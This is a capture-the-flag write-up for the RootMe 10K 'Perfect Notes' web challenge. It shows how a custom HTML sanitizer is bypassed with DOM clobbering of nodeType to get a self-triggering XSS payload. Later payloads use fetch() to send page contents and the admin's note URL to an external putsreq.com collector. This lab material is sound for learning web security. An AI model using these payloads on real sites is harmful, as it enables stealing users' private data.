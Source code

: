 # CTF RootMe 10K - Perfect Notes

![](./img/author-kevinmizu.svg) ![](./img/difficulty-hard.svg) ![](./img/category.svg)

## ![](./img/perfectnotes-desc.png)

## Discovering the website

![](./img/perfectnotes-1.png)

We arrive on a landing page that asks us who we are. Not afraid that my username would be stolen, I've used Feelzor. We are redirected to `/notes/{guid}`.

![](./img/perfectnotes-2.png)

Here, we can write our secret notes, that definitely aren't accessible by the outside world **\*coughs\***.

I tried multiple payloads to see what was possible and what wasn't.

| Payload                             | XSS Achieved ?                         |
| ----------------------------------- | -------------------------------------- |
| `<a href=javascript:alert(1)>`      | <span style="color: green;">Yes</span> |
| `<img src="1337" onerror=alert(1)>` | <span style="color: red;">No</span>    |

Incredible, so far I've already achieved an XSS.. but wait, it requires user interaction. Oh no, my very security-aware user will never click on this link **\*sad pentester noise\***.

Fortunately, we can see what happens on the front-end, with a very simple `script` tag. It is in fact somehow long and I do not want to pollute my writeup, so I will just put the interesting part :

```js
// source: https://github.com/cure53/DOMPurify/blob/main/src/tags.js
this.ALLOWED_TAGS = ["a", "abbr", "acronym", "address", "area", "article", "aside", "audio", "b", "bdi", "bdo", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "content", "data", "datalist", "dd", "decorator", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "element", "em", "fieldset", "figcaption", "figure", "font", "footer", "form", "h1", "h2", "h3", "h4", "h5", "h6", "head", "header", "hgroup", "hr", "html", "i", "img", "input", "ins", "kbd", "label", "legend", "li", "main", "map", "mark", "marquee", "menu", "menuitem", "meter", "nav", "nobr", "ol", "optgroup", "option", "output", "p", "picture", "pre", "progress", "q", "rp", "rt", "ruby", "s", "samp", "section", "select", "shadow", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "tr", "track", "tt", "u", "ul", "var", "video", "wbr"];

// source: https://github.com/cure53/DOMPurify/blob/main/src/attrs.js
this.ALLOWED_ATTRIBUTES = ["accept", "action", "align", "alt", "autocapitalize", "autocomplete", "autopictureinpicture", "autoplay", "background", "bgcolor", "border", "capture", "cellpadding", "cellspacing", "checked", "cite", "class", "clear", "color", "cols", "colspan", "controls", "controlslist", "coords", "crossorigin", "datetime", "decoding", "default", "dir", "disabled", "disablepictureinpicture", "disableremoteplayback", "download", "draggable", "enctype", "enterkeyhint", "face", "for", "headers", "height", "hidden", "high", "href", "hreflang", "id", "inputmode", "integrity", "ismap", "kind", "label", "lang", "list", "loading", "loop", "low", "max", "maxlength", "media", "method", "min", "minlength", "multiple", "muted", "name", "nonce", "noshade", "novalidate", "nowrap", "open", "optimum", "pattern", "placeholder", "playsinline", "poster", "preload", "pubdate", "radiogroup", "readonly", "rel", "required", "rev", "reversed", "role", "rows", "rowspan", "spellcheck", "scope", "selected", "shape", "shadowroot", "size", "sizes", "span", "srclang", "start", "src", "srcset", "step", "style", "summary", "tabindex", "title", "translate", "type", "usemap", "valign", "value", "width", "xmlns", "slot"];
```

This tells us that the XSS is protected by a **whitelist** and not a **blacklist**. Even if I always advise everyone to use **whitelists**, I'm angry at the fact that this is a best practice and it will be hard to find a vulnerability here.

Indeed, the tags and attributes are from the latest version of `DOMPurify`, and I decided for now that it would be "safe", in the sense that I won't be able to find a tag that would easily allow me to achieve my XSS.

So I've been trying to find something in the closed Github issues that would inspire me for an exploit to make. However, since this is definitely not where I had to search, I found nothing (sorry if I spoiled something to you).

Now, back to the beginning.

![Banging head against the wall](./img/perfectnotes-banginghead.webp)

## Dom Clobbering

Let's read a little bit more of the javascript we have on the website.

```js
// source: https://github.com/cure53/DOMPurify/blob/e0970d88053c1c564b6ccd633b4af7e7d9a10375/src/purify.js#L866
const _isClobbered = (elm) => {
  return (
    elm instanceof HTMLFormElement &&
      (typeof elm.nodeName !== 'string' ||
      typeof elm.textContent !== 'string' ||
      typeof elm.removeChild !== 'function' ||
      !(elm.attributes instanceof NamedNodeMap) ||
      typeof elm.removeAttribute !== 'function' ||
      typeof elm.setAttribute !== 'function' ||
      typeof elm.namespaceURI !== 'string' ||
      typeof elm.insertBefore !== 'function' ||
      typeof elm.hasChildNodes !== 'function')
    );
};

// Part of Sanitizer class
sanitize = (input) => {
  var currentNode = "";
  var dom_tree = new DOMParser().parseFromString(input, "text/html");

  var tag_name;
  var nodeIterator = document.createNodeIterator(dom_tree);
  while ((currentNode = nodeIterator.nextNode())) {

    switch(currentNode.nodeType) {
      case currentNode.ELEMENT_NODE:
        var tag_name   = currentNode.nodeName.toLowerCase();
        var attributes = currentNode.attributes;

        // avoid DOMClobbering
        if (_isClobbered(currentNode)) {
          currentNode.parentElement.removeChild(currentNode);

        // avoid mXSS
        } else if (currentNode.namespaceURI !== "http://www.w3.org/1999/xhtml") {
        currentNode.parentElement.removeChild(currentNode);

        // sanitize tags
        } else if (!this.ALLOWED_TAGS.includes(tag_name)){
          currentNode.parentElement.removeChild(currentNode);
        }

        // sanitize attributes
        for (let i=0; i < attributes.length; i++) {
          if (!this.ALLOWED_ATTRIBUTES.includes(attributes[i].name)){
            currentNode.parentElement.removeChild(currentNode);
            break;
          }
        }
    }
  }

  return dom_tree.documentElement.innerHTML;
}
```

We see two things here. The first is that there is a **blacklist** for DOM Clobbering that **isn't** taken from the main branch of DOMPurify (it is from commit `e0970d88053c1c564b6ccd633b4af7e7d9a10375`) and that unallowed tags or attributes, DOM Clobbering and mXSS all lead to the node being removed.

Remember the description? The important part is that it works on **Chromium-Based browsers**, I understood from that assessment that it **won't** work on Firefox. And what works wonderfully on Chromium and not on Firefox? Ding ding ding! That's our friend DOM Clobbering.

I took that as a proof I was on the right lead. Now for trying! I had no idea what DOM Clobbering was, but I was certain I could find a way to exploit it. I read this [Portswigger post](https://portswigger.net/web-security/dom-based/dom-clobbering "https://portswigger.net/web-security/dom-based/dom-clobbering") and I thought that I could reuse its payloads for this challenge.

Now, we have a DOM Clobbering protection, we will necessarily be blocked at some point. So I read what wasn't allowed: `attributes`, `removeChild`... this is not good news. But the great news is that `parentElement` is **not** part of the blacklist!

```html
<form onclick=alert(1)><input id=parentElement>Click me
```

This is my first payload, and it definitely works! The DOM Clobbering is in effect, **but** we have an error that prevents from executing the rest of the script (which is "add the node to the page" - *not shown on the snippet above*, and that's problematic).

`Uncaught DOMException: Failed to execute 'removeChild' on 'Node': The node to be removed is not a child of this node.`

I've tried to chain DOM Clobbering, but this is not working any better.

```html
<form onclick=alert(1) name=parentElement><input id=removeChild>sqd
```

`Uncaught TypeError: Cannot read properties of null (reading 'removeChild')`

After many other tries (only variations of these two payloads, nothing interesting), I've decided that it was time to think again. Take a deep breath, and let's read the JS code again.

![Breathing](https://media.giphy.com/media/9u1J84ZtCSl9K/giphy.gif)

Maybe I can try to use DOM Clobbering to override `_isClobbered`? Well I would be able to, but it wouldn't be a function anymore, and it is defined with the `const` keyword, so it's not writable. 

Override `currentNode`? It's not a global variable so it's theoretically not possible. That's when I thought I had been on the wrong path since the beginning that I found what would unblock me: `switch(currentNode.nodeType)`.

**WELL OF COURSE!**

## On the path to victory

It is now clear. `nodeType` is equal to 1 (value of `ELEMENT_NODE`) when it is an `HTMLElement`, which is exactly what we can override **without** creating an error.

```html
<form onclick=alert(1)><input id=nodeType>Click me
```

![Alert on screen](./img/perfectnotes-3.png)

*(notice that my titles were very clear, I would without any doubt click on such a note)* /s

![Victory!](https://media.giphy.com/media/d2Z4rTi11c9LRita/giphy.gif)

With the help of [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet "https://portswigger.net/web-security/cross-site-scripting/cheat-sheet"), I tried to find a payload that would autoload with the `form` tag. And fortunately, the `style` tag was allowed!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=nodeType></form>
```

This payload will autoload our `alert(1)`, and this works!

## The final boss

I've been hiding a little detail since the beginning for now: our notes are stored in an `<iframe>`, as shown in this js snippet.

```js
// sanitize content
var s = new Sanitizer();
var note_body = document.createElement("iframe");
note_body.setAttribute("frameBorder", 0);
// note_body.setAttribute("sandbox", "");
note_body.setAttribute("width", "100%");
note_body.srcdoc = `${s.sanitize(body)}`;
```

This is problematic since we may have trouble accessing cookies, or the page HTML content.

I've tried to see if I could access the parent HTML, and it is possible.

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(parent.document.documentElement.innerHTML)"><input id=nodeType></form>
```

![Parent HTML alert](./img/perfectnotes-4.png)

Yes we can, so let's retrieve the notes of the admin!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(parent.document.querySelector('#notes-list').innerHTML)}`)"><input id=nodeType></form>
```

And of course, we can only see **our** notes. The admin notes are hidden somewhere else. We can't steal their cookies (I've tried and they have none, or they have the `httpOnly` field).

I've tried to go to the main page again, and noticed I am immediately redirected to `/notes/{guid}` again. Isn't this our solution?

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('/notes').then((res) => {fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(res.url)}`)});"><input id=nodeType></form>
```

We receive a link that contains another GUID than ours: `bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`. When going to `/notes/bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`, we can see the admin notes.

![flag](./img/perfectnotes-5.png)

**Flag: `RM{T4k3_C4R3_0f_Sh4d0w_D0M_Wh1T_S4n1T4Z3R}`**
